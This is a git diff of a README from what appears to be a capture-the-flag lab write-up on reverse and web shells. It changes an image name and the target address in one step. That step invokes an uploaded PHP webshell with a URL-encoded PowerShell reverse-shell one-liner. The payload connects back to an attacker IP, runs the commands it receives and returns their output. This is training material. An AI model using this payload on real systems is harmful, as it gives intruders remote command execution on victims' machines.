

Update

diff --git a/Room/WhatTheShell/README.md b/Room/WhatTheShell/README.md
@@ -768,9 +768,9 @@ The remainder of this task will consist of shell examples for you to try out on 
 
 	* Set Netcat listener on our machine
 
-		![task13-win-listener](./images/task13-win-listener.png)
+		![task13-listener](./images/task13-listener.png)
 
-	* Excecute webshell on target machine via browser `http://10.10.125.216/uploads/shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.13.52.88%27%2C9999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
+	* Excecute webshell on target machine via browser `http://10.10.53.122/uploads/shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.13.52.88%27%2C8888%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
 
 		![task13-win-get-shell.png](./images/task13-win-get-shell.png)
 
